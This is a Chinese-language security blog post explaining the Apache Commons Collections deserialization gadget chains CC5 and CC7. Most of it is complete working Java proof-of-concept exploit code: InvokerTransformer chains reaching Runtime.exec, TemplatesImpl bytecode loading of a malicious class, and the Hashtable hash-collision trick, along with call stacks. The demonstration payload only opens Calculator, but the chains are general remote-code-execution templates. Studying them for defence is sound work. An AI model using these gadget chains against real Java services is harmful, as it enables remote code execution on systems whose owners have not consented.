

+++
title= "CC链最后一舞之CC5和CC7"
slug= "cc-chain-last-dance-cc5-cc7"
description= ""
date= "2025-10-14T20:47:27+08:00"
lastmod= "2025-10-14T20:47:27+08:00"
image= ""
license= ""
categories= ["Javasec"]
tags= [""]

+++

本来当时我学完那四条CC链之后，觉得没必要再学了，因为反反复复就是那么几个方法，但是昨天学习 ROME 反序列化的时候发现涉及了 CC5 和 CC7 里面的关键方法，所以在这记录一下

先不管三七二十一，恶意类准备好

```java
package Base.Unserialize.Base;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class Eval extends AbstractTranslet {
    static {
        try {
            Runtime.getRuntime().exec("open -a Calculator");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers)
            throws TransletException {}

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler)
            throws TransletException {}
}
```

## CC5

`BadAttributeValueExpException#readObject`到`TiedMapEntry#toString`接着就是 LazyMap 了，没什么问题，新的入口加 CC6 的后半段

```java
package Base.Unserialize.CC;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollections5{
    public static void main(String[] args) throws Exception {
        Transformer[] fakeTransformers = new Transformer[] {
                new ConstantTransformer(1)
        };

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[] { String.class, Class[].class },
                        new Object[] { "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke",
                        new Class[] { Object.class, Object[].class },
                        new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String[].class },
                        new Object[]{new String[]{"open", "-a", "Calculator"}}),
                new ConstantTransformer(1)
        };

        Transformer chainedTransformer = new ChainedTransformer(fakeTransformers);
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, chainedTransformer);

        TiedMapEntry tme = new TiedMapEntry(outerMap, "test2");

        BadAttributeValueExpException badAttribute = new BadAttributeValueExpException(null);
        setFieldValue(badAttribute,"val",tme);
        
        setFieldValue(chainedTransformer,"iTransformers",transformers);

        byte[] data =serialize(badAttribute);
        Object o = unserialize(data);
    }
    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, value);
    }

    public static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        return baos.toByteArray();
    }

    public static Object unserialize(byte[] bytes) throws IOException, ClassNotFoundException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        Object obj = ois.readObject();
        ois.close();
        return obj;
    }

}
```

完整调用栈如下

```java
at org.apache.commons.collections.functors.ConstantTransformer.transform(ConstantTransformer.java:76)
at org.apache.commons.collections.functors.ChainedTransformer.transform(ChainedTransformer.java:122)
at org.apache.commons.collections.map.LazyMap.get(LazyMap.java:151)
at org.apache.commons.collections.keyvalue.TiedMapEntry.getValue(TiedMapEntry.java:73)
at org.apache.commons.collections.keyvalue.TiedMapEntry.toString(TiedMapEntry.java:131)
at javax.management.BadAttributeValueExpException.readObject(BadAttributeValueExpException.java:86)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1058)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1900)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1801)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1351)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:371)
at Base.Unserialize.CC.CommonsCollections5.unserialize(CommonsCollections5.java:68)
at Base.Unserialize.CC.CommonsCollections5.main(CommonsCollections5.java:49)
```

当然也可以使用加载字节码

```java
package Base.Unserialize.CC;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollections5_Bytecode {
    public static void main(String[] args) throws Exception {
        TemplatesImpl templates = new TemplatesImpl();

        setFieldValue(templates, "_name", "Pwnr");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        setFieldValue(templates, "_bytecodes", new byte[][]{ClassPool.getDefault().get(Base.Unserialize.Base.Eval.class.getName()).toBytecode()});

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(templates),
                new InvokerTransformer("newTransformer", null, null)
        };

        Transformer chainedTransformer = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, chainedTransformer);
        TiedMapEntry tme = new TiedMapEntry(outerMap, "bbbb");

        BadAttributeValueExpException badAttribute = new BadAttributeValueExpException(null);
        setFieldValue(badAttribute, "val", tme);

        byte[] data = serialize(badAttribute);
        unserialize(data);
    }

    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, value);
    }

    private static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        return baos.toByteArray();
    }

    private static Object unserialize(byte[] bytes) throws IOException, ClassNotFoundException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        return ois.readObject();
    }
}
```

## CC7

依旧只改变开头，开头我们使用`Hashtable#readObject`，然后跟进到 reconstitutionPut，

```java
private void reconstitutionPut(Entry<?,?>[] tab, K key, V value)
        throws StreamCorruptedException
    {
        if (value == null) {
            throw new java.io.StreamCorruptedException();
        }
        // Makes sure the key is not already in the hashtable.
        // This should not happen in deserialized version.
        int hash = key.hashCode();
        int index = (hash & 0x7FFFFFFF) % tab.length;
        for (Entry<?,?> e = tab[index] ; e != null ; e = e.next) {
            if ((e.hash == hash) && e.key.equals(key)) {
                throw new java.io.StreamCorruptedException();
            }
        }
        // Creates the new entry.
        @SuppressWarnings("unchecked")
            Entry<K,V> e = (Entry<K,V>)tab[index];
        tab[index] = new Entry<>(hash, key, value, e);
        count++;
    }
```

可以触发 equals 函数，现在找一个类的 equals 可以触发 get 就可以继续 LazyMap 了，找到`AbstractMap#equals`

```java
public boolean equals(Object o) {
        if (o == this)
            return true;

        if (!(o instanceof Map))
            return false;
        Map<?,?> m = (Map<?,?>) o;
        if (m.size() != size())
            return false;

        try {
            Iterator<Entry<K,V>> i = entrySet().iterator();
            while (i.hasNext()) {
                Entry<K,V> e = i.next();
                K key = e.getKey();
                V value = e.getValue();
                if (value == null) {
                    if (!(m.get(key)==null && m.containsKey(key)))
                        return false;
                } else {
                    if (!value.equals(m.get(key)))
                        return false;
                }
            }
        } catch (ClassCastException unused) {
            return false;
        } catch (NullPointerException unused) {
            return false;
        }

        return true;
    }
```

接着写出poc即可，首先要使得两个 hash 相等，再者由于需要比较，所以我们需要两个表，都存入 LazyMap，我们不需要去写 AbstractMap，因为 HashMap 继承了 AbstractMap

```java
package Base.Unserialize.CC;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;

public class CommonsCollections7 {
    public static void main(String[] args) throws Exception {
        TemplatesImpl templates = new TemplatesImpl();

        setFieldValue(templates, "_name", "Pwnr");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(templates),
                new InvokerTransformer("newTransformer", null, null)
        };
        Transformer chainedTransformer = new ChainedTransformer(transformers);

        Map innerMap1 = new HashMap();
        Map innerMap2 = new HashMap();
        Map lazyMap1 = LazyMap.decorate(innerMap1, chainedTransformer);
        lazyMap1.put("yy", 1);

        Map lazyMap2 = LazyMap.decorate(innerMap2, chainedTransformer);
        lazyMap2.put("zZ", 1);

        Hashtable hashtable = new Hashtable();
        hashtable.put(lazyMap1, 1);
        hashtable.put(lazyMap2, 2);

        setFieldValue(templates, "_bytecodes", new byte[][]{ClassPool.getDefault().get(Base.Unserialize.Base.Eval.class.getName()).toBytecode()});

        byte[] data = serialize(hashtable);
        unserialize(data);
    }

    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, value);
    }

    private static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        return baos.toByteArray();
    }

    private static Object unserialize(byte[] bytes) throws IOException, ClassNotFoundException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        return ois.readObject();
    }
}
```

写出这样的 Poc 之后满心欢喜的“点击运行”，结果发现还不能成功



一调试发现和CC1一样，直接把这个元素移出即可，同时需要注意下，不能写伪装链，而是直接一个纯净无害链，避免提前触发，

```java
package Base.Unserialize.CC;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;

public class CommonsCollections7_bytecode {

    public static void main(String[] args) throws Exception {
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_name", "Pwnr");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(templates),
                new InvokerTransformer("newTransformer", null, null)
        };
        ChainedTransformer chain = new ChainedTransformer(new Transformer[]{});

        Map lazyMap1 = LazyMap.decorate(new HashMap(), chain);
        Map lazyMap2 = LazyMap.decorate(new HashMap(), chain);
        lazyMap1.put("yy", 1);
        lazyMap2.put("zZ", 1);

        Hashtable hashtable = new Hashtable();
        hashtable.put(lazyMap1, 1);
        hashtable.put(lazyMap2, 2);

        setFieldValue(chain, "iTransformers", transformers);
        lazyMap2.remove("yy");
        
        setFieldValue(templates, "_bytecodes", new byte[][]{ClassPool.getDefault().get(Base.Unserialize.Base.Eval.class.getName()).toBytecode()});
        
        byte[] payload = serialize(hashtable);
        deserialize(payload);
    }

    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, value);
    }

    private static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        return baos.toByteArray();
    }

    private static void deserialize(byte[] payload) throws IOException, ClassNotFoundException {
        ByteArrayInputStream bais = new ByteArrayInputStream(payload);
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
        ois.close();
    }
}
```

调用栈如下

```java
at org.apache.commons.collections.functors.InvokerTransformer.transform(InvokerTransformer.java:124)
at org.apache.commons.collections.functors.ChainedTransformer.transform(ChainedTransformer.java:123)
at org.apache.commons.collections.map.LazyMap.get(LazyMap.java:158)
at java.util.AbstractMap.equals(AbstractMap.java:472)
at org.apache.commons.collections.map.AbstractMapDecorator.equals(AbstractMapDecorator.java:130)
at java.util.Hashtable.reconstitutionPut(Hashtable.java:1221)
at java.util.Hashtable.readObject(Hashtable.java:1195)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1058)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1900)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1801)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1351)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:371)
at Base.Unserialize.CC.CommonsCollections7_bytecode.deserialize(CommonsCollections7_bytecode.java:66)
at Base.Unserialize.CC.CommonsCollections7_bytecode.main(CommonsCollections7_bytecode.java:46)
```

利用 transformers 链的也写一个

```java
package Base.Unserialize.CC;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;

public class CommonsCollections7 {

    public static void main(String[] args) throws Exception {
        Transformer[] realTransformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[]{"open -a Calculator"})
        };

        ChainedTransformer transformerChain = new ChainedTransformer(new Transformer[]{});

        Map lazyMap1 = LazyMap.decorate(new HashMap(), transformerChain);
        Map lazyMap2 = LazyMap.decorate(new HashMap(), transformerChain);
        lazyMap1.put("yy", 1);
        lazyMap2.put("zZ", 1);

        Hashtable hashtable = new Hashtable();
        hashtable.put(lazyMap1, 1);
        hashtable.put(lazyMap2, 2);

        setFieldValue(transformerChain, "iTransformers", realTransformers);
        lazyMap2.remove("yy");

        byte[] payload = serialize(hashtable);
        deserialize(payload);
    }

    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, value);
    }

    private static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        return baos.toByteArray();
    }

    private static void deserialize(byte[] payload) throws IOException, ClassNotFoundException {
        ByteArrayInputStream bais = new ByteArrayInputStream(payload);
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
        ois.close();
    }
}
```

完整调用栈如下

```java
at org.apache.commons.collections.functors.InvokerTransformer.transform(InvokerTransformer.java:124)
at org.apache.commons.collections.functors.ChainedTransformer.transform(ChainedTransformer.java:123)
at org.apache.commons.collections.map.LazyMap.get(LazyMap.java:158)
at java.util.AbstractMap.equals(AbstractMap.java:472)
at org.apache.commons.collections.map.AbstractMapDecorator.equals(AbstractMapDecorator.java:130)
at java.util.Hashtable.reconstitutionPut(Hashtable.java:1221)
at java.util.Hashtable.readObject(Hashtable.java:1195)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1058)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1900)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1801)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1351)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:371)
at Base.Unserialize.CC.CommonsCollections7.deserialize(CommonsCollections7.java:66)
at Base.Unserialize.CC.CommonsCollections7.main(CommonsCollections7.java:46)
```
